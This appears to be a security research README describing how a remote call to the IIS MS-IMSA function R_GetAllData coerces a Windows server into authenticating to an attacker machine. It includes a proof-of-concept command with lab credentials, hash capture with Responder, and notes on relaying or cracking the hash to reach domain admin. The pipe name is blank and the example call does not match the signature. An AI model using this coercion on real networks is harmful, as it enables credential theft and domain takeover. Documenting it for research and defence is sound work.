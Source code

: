 # MS-IMSA - Remote call to R_GetAllData (opnum 13)

## Summary

+ **Protocol**: [[MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457)

+ **Protocol UUID**: 70b51430-b6ca-11d0-b9b9-00a0c922e750

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`R_GetAllData`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/caedbaa6-3867-463e-b2ab-9ecbb61adbaf)

+ **Function operation number**: `13`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-IMSA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) protocol (with uuid `70b51430-b6ca-11d0-b9b9-00a0c922e750` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-IMSA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) and allows to call RPC functions of this protocol. We will then call the remote [`R_GetAllData`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/caedbaa6-3867-463e-b2ab-9ecbb61adbaf) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_GetAllData('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT R_GetAllData(
   [in] METADATA_HANDLE hMDHandle,
   [unique, in, string] LPCWSTR pszMDPath,
   [in] DWORD dwMDAttributes,
   [in] DWORD dwMDUserType,
   [in] DWORD dwMDDataType,
   [out] DWORD* pdwMDNumDataEntries,
   [out] DWORD* pdwMDDataSetNumber,
   [in] DWORD dwMDBufferSize,
   [out] DWORD* pdwMDRequiredBufferSize,
   [out] IIS_CRYPTO_BLOB** ppDataBlob
 );
```

## References

+ Documentation of protocol [MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457

+ Documentation of function `R_GetAllData`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/caedbaa6-3867-463e-b2ab-9ecbb61adbaf
